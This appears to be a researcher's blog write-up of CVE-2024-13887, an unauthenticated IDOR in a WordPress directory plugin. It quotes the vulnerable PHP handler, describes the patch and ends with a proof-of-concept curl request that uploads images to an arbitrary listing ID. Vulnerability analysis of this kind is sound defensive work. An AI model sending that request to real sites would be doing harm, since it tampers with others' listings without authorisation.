

<!--more-->

## CVE & Basic Info

The **Business Directory Plugin – Easy Listing Directories for WordPress** plugin contains an **Insecure Direct Object Reference (IDOR)** vulnerability in all versions up to **6.4.14**, through the `ajax_listing_submit_image_upload` function due to missing validation on a user-controlled key. This allows **unauthenticated attackers** to **upload arbitrary images to listings**.

* **CVE ID**: [CVE-2024-13887](https://www.cve.org/CVERecord?id=CVE-2024-13887)
* **Vulnerability Type**: Insecure Direct Object References (IDOR)
* **Affected Versions**: <= 6.4.14
* **Patched Versions**: 6.4.15
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Business Directory Plugin](https://wordpress.org/plugins/business-directory-plugin/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **Business Directory**:

  * `6.4.14` – **vulnerable**
  * `6.4.15` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers an AJAX handler **for logged-out users**:

```php {title="class-wpbdp.php v6.4.14" data-open=true hl_lines=[]}
add_action( 'wp_ajax_nopriv_wpbdp-listing-submit-image-upload', array( &$this, 'ajax_listing_submit_image_upload' ) );
```

`wp_ajax_nopriv` is a hook available to all users, including unauthenticated users. When a request is sent to the `/wp-admin/admin-ajax.php` endpoint with the parameter `action=wpbdp-listing-submit-image-upload`, the callback `ajax_listing_submit_image_upload` is executed:

```php {title="class-wpbdp.php v6.4.14" data-open=true hl_lines=[4,6,37]}
public function ajax_listing_submit_image_upload() {
    $res = new WPBDP_AJAX_Response();

    $listing_id = intval( $_REQUEST['listing_id'] );
    ...
    $files  = wpbdp_flatten_files_array( isset( $_FILES['images'] ) ? $_FILES['images'] : array() );
    $errors = array();

    $listing         = WPBDP_Listing::get( $listing_id );
    $slots_available = 0;
    $plan            = $listing->get_fee_plan();
    if ( ! $plan ) {
        return $res->send_error( __( 'Please select a plan before uploading images to the listing', 'business-directory-plugin' ) );
    }

    $slots_available = absint( $plan->fee_images ) - absint( $_POST['images_count'] );
    if ( 0 >= $slots_available ) {
        return $res->send_error( __( 'Can not upload any more images for this listing.', 'business-directory-plugin' ) );
    } elseif ( $slots_available < count( $files ) ) {
        return $res->send_error(
            sprintf(
                _nx(
                    'You\'re trying to upload %1$d images, but only have %2$d slot available. Please adjust your selection.',
                    'You\'re trying to upload %1$d images, but only have %2$d slots available. Please adjust your selection.',
                    $slots_available,
                    'listing image upload',
                    'business-directory-plugin'
                ),
                count( $files ),
                $slots_available
            )
        );
    }

    foreach ( $files as $i => $file ) {
        $image_error   = '';
        $attachment_id = wpbdp_media_upload(
            $file,
            true,
            true,
            array(
                'image'      => true,
                'min-size'   => intval( wpbdp_get_option( 'image-min-filesize' ) ) * 1024,
                'max-size'   => intval( wpbdp_get_option( 'image-max-filesize' ) ) * 1024,
                'min-width'  => wpbdp_get_option( 'image-min-width' ),
                'min-height' => wpbdp_get_option( 'image-min-height' ),
            ),
            $image_error
        ); // TODO: handle errors.

        if ( $image_error ) {
            $errors[ $file['name'] ] = $image_error;
        } else {
            $attachments[] = $attachment_id;
        }
    }

    $html = '';
    foreach ( $attachments as $attachment_id ) {
        $html .= wpbdp_render(
            'submit-listing-images-single',
            array(
                'image_id'   => $attachment_id,
                'listing_id' => $listing_id,
            ),
            false
        );
    }

    $has_images = $listing->get_images( 'ids' );
    $listing->set_images( $attachments, true );

    // Maybe set thumbnail if there aren't already images on this listing.
    if ( ! $has_images ) {
        $image_id = reset( $attachments );
        $listing->set_thumbnail_id( $image_id );
    }

    if ( $errors ) {
        $error_msg = '';

        foreach ( $errors as $fname => $error ) {
            $error_msg .= sprintf( '&#149; %s: %s', $fname, $error ) . '<br />';
        }

        $res->add( 'uploadErrors', $error_msg );
    }

    $res->add( 'is_admin', wpbdp_user_is_admin() );
    $res->add( 'slots_available', $slots_available );
    $res->add( 'attachmentIds', $attachments );
    $res->add( 'html', $html );
    $res->send();
}
```

The function retrieves `listing_id` and `images` from the request:

```php
$listing_id = intval( $_REQUEST['listing_id'] );
$files  = wpbdp_flatten_files_array( isset( $_FILES['images'] ) ? $_FILES['images'] : array() );
```

The function stops if a plan has not been selected:

```php
$plan = $listing->get_fee_plan();
if ( ! $plan ) {
    return $res->send_error( __( 'Please select a plan before uploading images to the listing', 'business-directory-plugin' ) );
}
```



Then it checks the remaining available upload slots:

```php
$slots_available = absint( $plan->fee_images ) - absint( $_POST['images_count'] );
if ( 0 >= $slots_available ) {
    return $res->send_error( __( 'Can not upload any more images for this listing.', 'business-directory-plugin' ) );
} elseif ( $slots_available < count( $files ) ) {
    return $res->send_error(
        sprintf(
            _nx(
                'You\'re trying to upload %1$d images, but only have %2$d slot available. Please adjust your selection.',
                'You\'re trying to upload %1$d images, but only have %2$d slots available. Please adjust your selection.',
                $slots_available,
                'listing image upload',
                'business-directory-plugin'
            ),
            count( $files ),
            $slots_available
        )
    );
}
```


If `slot <= 0`, an error is returned. Otherwise, the code iterates through the uploaded files and calls `wpbdp_media_upload` to upload them.

```php
foreach ( $files as $i => $file ) {
    $image_error   = '';
    $attachment_id = wpbdp_media_upload(
        $file,
        true,
        true,
        array(
            'image'      => true,
            'min-size'   => intval( wpbdp_get_option( 'image-min-filesize' ) ) * 1024,
            'max-size'   => intval( wpbdp_get_option( 'image-max-filesize' ) ) * 1024,
            'min-width'  => wpbdp_get_option( 'image-min-width' ),
            'min-height' => wpbdp_get_option( 'image-min-height' ),
        ),
        $image_error
    ); // TODO: handle errors.

    if ( $image_error ) {
        $errors[ $file['name'] ] = $image_error;
    } else {
        $attachments[] = $attachment_id;
    }
}
```

Finally, the function returns upload information in JSON format.

> [!BUG]
> The vulnerability occurs because there is no binding between `listing_id` and the authorized user performing the upload. An attacker can upload arbitrary images by modifying the `listing_id` parameter.

The `v6.4.15` patch introduced several mitigations:


* Adds nonce verification using `check_ajax_referer` → CSRF protection
* Checks listing ownership; if the user does not own the listing, an error is returned.

```php
if ( ! wpbdp_user_is_admin() && ! $listing->owned_by_user( get_current_user_id() ) ) {
    return $res->send_error( __( 'You do not have permission to upload images to this listing', 'business-directory-plugin' ) );
}
```

## Flow


flowchart TD
A["Unauthenticated Attacker"]
--> B["Send POST request to /wp-admin/admin-ajax.php"]

B --> C["action=wpbdp-listing-submit-image-upload"]

C --> D["WordPress triggers ajax_listing_submit_image_upload()"]

D --> E["No authentication required (wp_ajax_nopriv_)"]

E --> F["Extract listing_id from request"]

F --> G["Load listing object by ID"]

G --> H{"Listing has fee plan?"}

H -- No --> I["Return error: select a plan"]
H -- Yes --> J["Calculate remaining image slots"]

J --> K{"slots_available > 0?"}

K -- No --> L["Return error: no available slots"]
K -- Yes --> M["Process uploaded files"]

M --> N["Call wpbdp_media_upload()"]

N --> O["Attach uploaded image to listing"]

O --> P["Set thumbnail if needed"]

P --> Q["Return success response (JSON)"]

Q --> R["Image successfully attached to arbitrary listing"]

R --> S["IDOR: No ownership / permission validation"]


## Proof of Concept (PoC)

Send request:

```sh
curl -X POST http://localhost/wp-admin/admin-ajax.php \
  -F "action=wpbdp-listing-submit-image-upload" \
  -F "listing_id=88" \
  -F "images=@/path/to/image.jpg"
```

**Result**


## Conclusion

The CVE-2024-13887 vulnerability arises because the `wpbdp-listing-submit-image-upload` endpoint allows unauthenticated access and does not verify ownership of `listing_id`. This allows attackers to upload images to any valid listing simply by modifying the input parameter. Version 6.4.15 fixes this by adding nonce verification and ownership checks.

## Key Takeaways

* IDOR occurs due to missing resource ownership validation.
* `wp_ajax_nopriv` is a dangerous attack surface without additional authentication.
* Never trust user input such as `listing_id`.
* Always combine **authentication + authorization** when handling AJAX endpoints.

## References

[IDOR](https://book.hacktricks.wiki/en/pentesting-web/idor.html)

[WordPress Business Directory Plugin <= 6.4.14 is vulnerable to Insecure Direct Object References (IDOR)](https://patchstack.com/database/wordpress/plugin/business-directory-plugin/vulnerability/wordpress-business-directory-plugin-plugin-6-4-14-insecure-direct-object-reference-to-listing-arbitrary-image-addition-vulnerability)
